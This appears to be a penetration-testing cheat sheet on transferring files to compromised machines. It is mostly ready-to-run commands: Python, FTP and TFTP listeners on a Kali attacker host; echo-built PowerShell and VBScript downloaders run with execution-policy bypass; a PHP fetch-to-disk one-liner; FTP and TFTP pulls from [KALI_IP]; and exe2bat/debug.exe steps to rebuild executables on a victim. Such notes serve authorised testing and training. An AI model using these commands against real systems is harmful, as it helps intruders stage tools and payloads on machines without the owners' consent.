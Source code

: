 # File Transfers

## Table of Contents
* [wget](#wget)
   * [Listener (Python)](#listener-python)
      * [HTTP](#http)
      * [HTTPS](#https)
   * [Powershell wget](#powershell-wget)
   * [VBScript wget](#vbscript-wget)
   * [PHP wget](#php-wget)
* [FTP](#ftp)
* [TFTP](#tftp)
* [debug.exe](#debugexe)


## wget

### Listener (Python)

#### HTTP
```
python -m SimpleHTTPServer 80
```
```
python3 -m http.server 80
```

#### HTTPS
SimpleHTTPSServer.py script (Python 2 only).

Requires SSL/TLS certificate (server.pem):
```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

##### Usage
```
python SimpleHTTPSServer.py 443
```


### Powershell wget
Create [Powershell wget script](wget.ps1) on target system via "echo" commands, then execute to download files.

#### Create script on target system
```
echo param ([String]$url="",[String]$outfile="")>> wget.ps1
echo If($url -eq "") { $sn = $MyInvocation.MyCommand.Name; Write-Host "Usage: $sn -url [URL] [-outfile [FILENAME]]"; Exit }>> wget.ps1
echo If($outfile -eq "") { [array]$ss = $url.split("/"); $outfile = $ss[$ss.Count-1] }>> wget.ps1
echo $storageDir = $pwd>> wget.ps1
echo $webclient = New-Object System.Net.WebClient>> wget.ps1
echo $webclient.DownloadFile($url,$outfile)>> wget.ps1
```

#### Usage
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 -url [URL] [-outfile [FILENAME]]
```

#### Options
```
-url [URL]: Download file from [URL] url
-outfile [FILENAME]: Save downloaded file to [FILENAME] (optional)
```


### VBScript wget
Create [VBScript wget script](wget.vbs) on target system via "echo" commands, then execute to download files.

#### Create script on target system
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

#### Usage
```
cscript wget.vbs [URL] [FILENAME]
```

#### Options
```
[URL]: Download file from [URL] url
[FILENAME]: Save downloaded file to [FILENAME]
```

### PHP wget
```
<?php file_put_contents("[LOCAL_FILENAME]", fopen("[URL]", 'r')); ?>
```


## FTP
FTP transfers are not simple to initiate. They should mostly be used on Windows targets when other methods are not available.

FTP transfers are conducted using [non-interactive FTP scripts](ftp.txt).

### Start FTP Server (pure-ftpd) on Kali
```
systemctl start pure-ftpd
```

### Create non-interactive script on target system (replace [KALI_IP], [FTP_USER], [FTP_PASSWORD], and [FILE] accordingly)
```
echo open [KALI_IP] 21> ftp.txt
echo USER [FTP_USER]>> ftp.txt
echo [FTP_PASSWORD]>> ftp.txt
echo bin>> ftp.txt
echo GET [FILE]>> ftp.txt
echo bye>> ftp.txt
```

### Download file with FTP from compromised Windows system
```
ftp -v -n -s:ftp.txt
```


## TFTP
While TFTP file transfers are easy to initiate, they can be PAINFULLY slow. Therefore, other transfer methods should be used if they are available.

### Start TFTP server (atftpd) on Kali (hosted files located in /home/tftp)
```
atftpd --logfile=/var/log/atftpd.log --daemon --port 69 /home/tftp/
```

### Download file with tftp from compromised system
```
tftp -i [KALI_VM_IP] get [FILENAME]
```


## debug.exe
Limited to 32-bit Windows systems, and file sizes up to 64KB. Therefore, this is not a preferred file transfer method if easier/faster methods are available.

### Generic procedure
* Compress exe file with upx
* Convert exe to batch file using exe2bat
* Copy output into shell on compromised system

### upx
Compress executables for easier transfer via debug.exe.

#### Options
```
-o [FILE]: output compressed executable to [FILE]
-9: compress as much as possible
```

### exe2bat
Convert exe files into batch files containing many "echo" commands before a "debug.exe" command

Intented to be pasted into a shell on a compromised system, and will re-create the original .exe file

```
wine /usr/share/windows-binaries/exe2bat.exe [IN_EXE] [OUT_BAT]
```

